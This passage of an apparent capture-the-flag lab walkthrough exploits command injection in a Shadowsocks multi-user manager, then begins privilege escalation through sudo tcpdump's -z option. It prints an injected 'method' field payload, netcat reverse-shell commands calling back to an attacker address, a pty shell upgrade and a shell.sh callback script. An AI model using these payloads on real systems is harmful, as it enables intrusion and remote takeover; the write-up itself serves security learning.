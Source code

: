 which this vulnerability stems from “control of Shadowsocks servers for multiple users, it spawns new servers if needed.”

    Proof of Concept
    ----------------
    As passed configuration requests are getting executed, the following command
    will create file "evil" in /tmp/ on the server:
    
    nc -u 127.0.0.1 8839
        add: {"server_port":8003, "password":"test", "method":"||touch
    /tmp/evil||"}

Testing to see if port 8839 is open on VM.

    netstat -lntu

![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552672889444_image.png)


we can now attempt to `nc` to this port and parse a reverse tcp connection back to our system.

setup local listener on port `1234`

    nc -lvnp 1234

setting up reverse tcp connection on target

    nc -u 127.0.0.1 8839
    add: {"server_port":8003, "password":"test", "method":"||nc 192.168.56.102 1234 -e /bin/bash||"}

![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552673177781_image.png)


we have now escalated to fireman

![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552673290069_image.png)


upgrade shell

    python -c 'import pty; pty.spawn("/bin/bash")'

![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552673340220_image.png)


perform privilege check with `sudo -l`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_D70A1EC97DF1A4BB47BF1E7B3EAFBEC86E52E2AD587D1A8BC3E10D54A7CA2C35_1552673385076_image.png)


focusing on `tcpdump` I found an article that explains how to get root via tcpdump.
Link: https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/

basically with the command `-z` we will be able to run commands via tcpdump.

so we need a script for this `-z` command to run so we will just echo a `nc` connection back to our local system on port 4567 and change the chmod.

    echo "nc 192.168.56.102 4567 -e /bin/bash" > shell.sh
    chmod +x shell.sh
